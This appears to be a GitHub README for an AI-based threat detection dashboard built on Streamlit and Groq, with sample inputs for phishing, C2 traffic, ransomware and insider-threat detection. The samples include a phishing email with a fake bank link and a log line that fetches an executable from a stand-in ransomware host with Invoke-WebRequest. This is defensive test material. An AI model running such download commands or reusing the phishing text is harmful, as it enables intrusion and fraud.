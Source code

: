 <h1 align="center"> 🚀 AI-Powered Cybersecurity Threat Detection System 🚀 </h1>

![Python](https://img.shields.io/badge/Python-3.9%2B-blueviolet) ![Streamlit](https://img.shields.io/badge/Streamlit-1.25%2B-brightgreen) ![Groq AI](https://img.shields.io/badge/Groq%20AI-Powered-blue)

## 🚀 Overview
This project is an **AI-powered cybersecurity tool** that analyzes text-based threats such as phishing emails, malicious network logs, and insider threats. It leverages the **Groq API** with the `qwen-2.5-32b` model and is built using **Python** and **Streamlit** for real-time security insights.

## 🔥 Features
- **Phishing Email Detection** – Identifies suspicious emails and malicious links.
- **Network Log Analysis** – Detects unusual login attempts and C2 traffic.
- **Insider Threat Monitoring** – Flags unauthorized access and data exfiltration.
- **Real-time Threat Intelligence** – Displays live security data.
- **User-Friendly Interface** – Interactive Streamlit dashboard.

## 🛠️ Installation & Setup
### 1️⃣ Clone the Repository
```bash
git clone https://github.com/your-username/AI-Powered-Cybersecurity-Threat-Detection-System.git
cd AI-Powered-Cybersecurity-Threat-Detection-System
```

### 2️⃣ Install Dependencies
```bash
pip install -r requirements.txt
```

### 3️⃣ Set Up Groq API Key
Edit the script and replace `"YOUR_GROQ_API_KEY"` with your actual API key:
```python
client = Groq(api_key="YOUR_GROQ_API_KEY")
```

### 4️⃣ Run the Application
```bash
streamlit run your_script.py
```

## 🎯 Usage
1. Open the Streamlit app.
2. Enter network logs, email content, or suspicious text.
3. Click **Analyze Threat** to get AI-driven security insights.
4. Review **live threat intelligence** in the dashboard.

## 📌 Example Test Cases
## 1️⃣ Phishing Email Detection
### 📩 Input (Phishing Email Example):
**Input:**
```
Subject: Urgent! Your Account Will Be Suspended  

Dear Customer,  

We have noticed suspicious activity on your account. Please verify your identity immediately by clicking the link below:  
🔗 http://secure-bank-login-verification.com  

Failure to do so within 24 hours will result in account suspension.  

Best,  
Bank Security Team

```
| **OUTPUT** 🚨 |
|------------------------------------------------------------------------------------------------------------------------|
| ![Phishing Email Detection_page-0001](https://github.com/user-attachments/assets/0b10fe7d-fba2-4b43-b9de-360d7756bf88) |


## 2️⃣ Malicious Network Activity (Log Analysis)
### 📜 Input (Suspicious Firewall Logs):
**Input:**
```
[WARNING] Multiple failed SSH login attempts detected from IP 185.220.101.25  
[ALERT] Unusual traffic detected from internal server to 145.34.76.98 on port 4444 (Common C2 channel)  

```
| **OUTPUT** 🚨 |
|-----------------------------------------------------------------------------------------------------------------------------------------|
| ![Malicious Network Activity (Log Analysis)_page-0001](https://github.com/user-attachments/assets/465eaf06-484e-4019-b1e6-f786581eed57) |

## 3️⃣ Ransomware Attack Alert (Security Log Review)
### 📄 Input (Windows Event Log from a Compromised System):
**Input:**
```
Event ID 4688: New process created - C:\Users\Public\decrypt_files.exe  
Event ID 5145: Network file access by process - \\shared_drive\important_files\  
Event ID 4104: PowerShell script execution - Invoke-WebRequest http://malicious-ransomware-server.com/download.exe  

```
| **OUTPUT** 🚨 |
|---------------------------------------------------------------------------------------------------------------------------------------------|
| ![Ransomware Attack Alert (Security Log Review)_page-0001](https://github.com/user-attachments/assets/1f32947b-eed1-4b38-9790-1b56240e4189) |

## 4️⃣ Data Exfiltration via Suspicious Email Attachment
### 📩 Input (Email with Potentially Malicious Attachment):
**Input:**
```
Subject: Important Update - Invoice Attached  

Hello,  

Please find the invoice attached for your review. Let us know if you have any questions.  

Regards,  
John Doe  
Attachment: invoice_12345.zip  

```
| **OUTPUT** 🚨 |
|-------------------------------------------------------------------------------------------------------------------------------------------------|
| ![Data Exfiltration via Suspicious Email Attachment_page-0001](https://github.com/user-attachments/assets/e1cc6b79-e752-4686-915e-2fcf25367d2d) |

## 5️⃣ Insider Threat (Suspicious Employee Activity)
### 📝 Input (Unusual File Transfers Logged in SIEM)
**Input:**
```
User: Alice from HR  
Action: Downloaded 100+ sensitive files from HR database  
Time: 2:30 AM (Non-working hours)  
Destination: External USB drive detected  

```
| **OUTPUT** 🚨 |
|---------------------------------------------------------------------------------------------------------------------------------------------|
| ![Insider Threat (Suspicious Employee Activity)_page-0001](https://github.com/user-attachments/assets/36248013-944f-4b6c-bb12-73ce915108f2) |



## 🤝 Contributing
Feel free to **fork** the repository, submit **issues**, or contribute **pull requests** to improve the project.

## 🔗 Contact & Support
Have questions or suggestions? Feel free to reach out:

- 📧 [Email](mailto:gauravghandat12@gmail.com)
- 💼 [LinkedIn](www.linkedin.com/in/gaurav-ghandat-68a5a22b4)

---
🚀 **Stay Secure & Keep Hacking Ethically!** 🔥

